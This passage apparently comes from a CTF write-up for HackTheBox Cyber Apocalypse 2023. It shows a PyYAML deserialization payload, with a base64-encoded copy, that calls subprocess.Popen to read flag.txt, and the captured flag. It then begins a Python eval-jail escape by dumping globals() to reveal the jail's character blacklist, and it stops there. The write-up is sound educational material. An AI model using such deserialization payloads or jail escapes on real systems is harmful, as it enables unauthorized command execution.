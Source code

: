 We can see the flag.txt, let's grab it with a payload to run _cat flag.txt_. This time we need a tuple since Popen receives a list of strings, one per argument.

```python
# ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gY2F0CiAgLSBmbGFnLnR4dAo=
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```

<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/1_2_flag.png" width="70%"/>
</p>

And we get the flag:

``` HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?} ```

<br>

## nehebkaus trap
In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

Connecting with netcat we can start checking that we are within an eval function in python. Time to escape.


<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/6_0_start.png" width="65%"/>
</p>


```python
# Input
print(globals())

[*] Input accepted!

{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f10a406fc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/./jail.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'time': <module 'time' (built-in)>, 'BLACKLIST': ('.', '_', '/', '"', ';', ' ', "'", ','), 'Color': <class '__main__.Color'>, '_print': <function _print at 0x7f10a40cbd90>, 'banner': <function banner at 0x7f10a400ac20>, 'loop': <function loop at 0x7f10a400acb0>, '_': 6}


# Input
```